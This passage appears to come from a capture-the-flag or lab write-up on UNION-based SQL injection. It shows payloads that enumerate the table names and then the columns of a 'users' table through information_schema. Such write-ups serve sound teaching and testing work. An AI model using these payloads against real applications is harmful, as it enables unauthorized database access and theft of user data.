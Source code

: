 ```
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' UNION SELECT 1,2,3,4,5,6,7;

1' UNION SELECT 1,2,3,4,table_name,6,7 from information_schema.tables#
```

![image-20211015141812433](images/image-20211015141812433.png)

**Get the column name**

- table name = users

```
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' UNION SELECT 1,2,3,4,5,6,7;

1' UNION SELECT 1,2,3,4,column_name,6,7 from information_schema.columns where table_name='users'#
```
